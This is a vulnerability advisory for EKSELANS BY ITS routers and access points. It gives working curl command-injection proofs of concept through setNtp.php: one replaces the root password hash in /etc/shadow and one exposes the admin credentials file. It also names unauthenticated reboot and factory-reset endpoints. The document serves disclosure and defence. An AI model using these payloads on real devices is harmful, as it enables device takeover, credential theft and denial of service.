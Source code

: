 
# 🔥 Unauthenticated RCE and Full Device Compromise on EKSELANS by ITS Devices

## Summary

Multiple network devices manufactured by **EKSELANS BY ITS** (https://www.ek.plus/) are affected by a set of critical vulnerabilities that allow **unauthenticated attackers** to:

- Gain **root remote code execution (RCE)**,
- **Extract sensitive information** including admin credentials,
- **Change system configuration**, including the root password,
- **Trigger device reboot** and **factory reset** via unauthenticated endpoints,
- Ultimately perform **full device takeover** and **persistent denial-of-service (DoS)**.

These issues stem from improper input validation and unsafe use of shell commands in PHP CGI scripts exposed via the web interface.

---

## Affected Devices

The following EKSELANS BY ITS devices were tested and found vulnerable:

- TR750  
- TR1200  
- TR1200OLP  
- TR1300  
- TR2200  
- TR3000W6  
- TR3000W6OLP  
- AP1200 W2  
- AP 300  
- AP300 LP  
- AP750 NG  

**⚠️ Note:** Other devices in the EKSELANS product line may also be vulnerable, but have not yet been tested.

---

## Vulnerability 1 – Remote Code Execution (RCE) as Root via `setNtp.php`

### Description

The script at:

```
http://<device-ip>/cgi-bin/setNtp.php
```

is intended to update the system's timezone setting via the `Zone` POST parameter. However, it directly injects this input into a shell command using `shell_exec()` **without sanitization**, allowing arbitrary command execution as **root**.

### Risk Level: **Critical**

This leads to:
- Full root-level remote code execution (RCE)
- Unauthorized modification of system files (e.g. `/etc/shadow`)
- Persistence (e.g. SSH backdoor)
- Exfiltration of configuration and credentials
- Bricking of the device

---

### Exploit Proofs-of-Concept (PoC)

#### 🔓 PoC 1 – Change root password to `toor` for future SSH access:

```bash
curl --location 'http://<device-ip>/cgi-bin/setNtp.php' \
--form 'Zone="UTC'''; sed -i '''s/^root:.*/root:$1$Awiloz1g$Je46CvkpbqUExnTav0W580:20193:0:99999:7:::/g''' /etc/shadow; echo '''"'
```

This injects a new password hash into `/etc/shadow` for the `root` user.

> 🛠️ *The hash corresponds to the password: `toor`*

---

#### 📁 PoC 2 – Exfiltrate web admin credentials:

```bash
curl --location 'http://<device-ip>/cgi-bin/setNtp.php' \
--form 'Zone="UTC'''; cp /etc/config/systemconf/config/account.conf /www/cgi-bin/pwned3.php; echo '''"'
```

You can now download the credentials at:

```
http://<device-ip>/cgi-bin/pwned3.php
```

---

### Vulnerable Code (Excerpt)

```php
$cmd = "sed -i '3ioption timezone " . $zone . "'" . " /etc/config/system";
shell_exec($cmd);
```

The `Zone` parameter is directly concatenated into a shell command, enabling arbitrary code execution.

---

## Vulnerability 2 – Unauthenticated Reboot via `devmanage_resetDefault.php`

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

**immediately reboots the device**, without requiring login or confirmation.

This could allow attackers to:
- Cause **persistent DoS**
- Disrupt connectivity or network availability
- Exploit race conditions with other vulnerabilities

---

## Vulnerability 3 – Unauthenticated Factory Reset

### Description

The same endpoint:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

in some firmware versions or configurations **triggers a full factory reset**, erasing custom settings, access credentials, and other user data.

This may result in:
- **Erasure of forensic evidence**
- **Loss of device access for legitimate users**
- Further **chaining of exploits** to set malicious defaults or gain persistence

---

## Step-by-Step Reproduction Guide

1. Identify a vulnerable EKSELANS device on the network.
2. Use `curl` or any HTTP client to POST to `/cgi-bin/setNtp.php` with a malicious `Zone` value.
3. Optionally extract files or drop a webshell using the same method.
4. For reboot/factory reset, issue a GET request to `/cgi-bin/devmanage_resetDefault.php`.

---

## Recommendations

- Immediately **remove public access** to affected devices.
- Apply **input sanitization** to all CGI scripts.
- Avoid using `shell_exec()` with user input.
- Restrict access to configuration endpoints via authentication.
- Apply firmware updates (if available) or contact vendor for mitigation guidance.

---

## Disclosure Timeline

- TBD – Vendor notification in progress.
- TBD – CVE Assignment pending.
- TBD – Public disclosure.

---

## Credits

Discovered and responsibly disclosed by **[Anonymous Researcher / Team Name if applicable]**

---

## Disclaimer

This information is provided for educational and defensive security purposes. The author is not responsible for any misuse of this information.
